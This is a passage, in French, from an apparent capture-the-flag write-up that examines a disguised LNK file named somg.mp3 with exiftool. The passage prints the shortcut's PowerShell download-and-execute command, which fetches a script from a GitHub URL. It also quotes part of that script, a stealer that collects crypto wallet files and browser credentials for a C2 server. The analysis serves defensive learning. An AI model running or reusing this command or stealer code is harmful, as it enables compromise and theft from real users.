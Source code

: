{% endcapture %}
{% include elements/spoil.html %}

En analysant de la même façon le fichier `somg.mp3` nous observons cette fois qu'il ne s'agit pas d'un fichier sonore, mais d'un lien permettant de télécharger et lancer un fichier PowerShell depuis Github

```bash
exiftool somg.mp3
```

{% capture spoil %}
ExifTool Version Number         : 11.88
File Name                       : somg.mp3
Directory                       : .
[...expurgé pour brièveté...]
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
[...expurgé pour brièveté...]
Target File DOS Name            : powershell.exe
Drive Type                      : Fixed Disk
Volume Label                    : 
Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-2019
{% endcapture %}
{% include elements/spoil.html %}

En nous rendant sur le lien Github, nous pouvons constater qu'il s'agit d'un script permettant de contacter un serveur C2 (*Command & Control*) entraînant la compromission de la machine à des fins de minage de cryptomonnaie

```powershell
function Print-AsciiArt {
    #[...expurgé pour brièveté...]
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    #[...expurgé pour brièveté...]
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    #[...expurgé pour brièveté...]
}

# Function to send the stolen info to a C2 server
```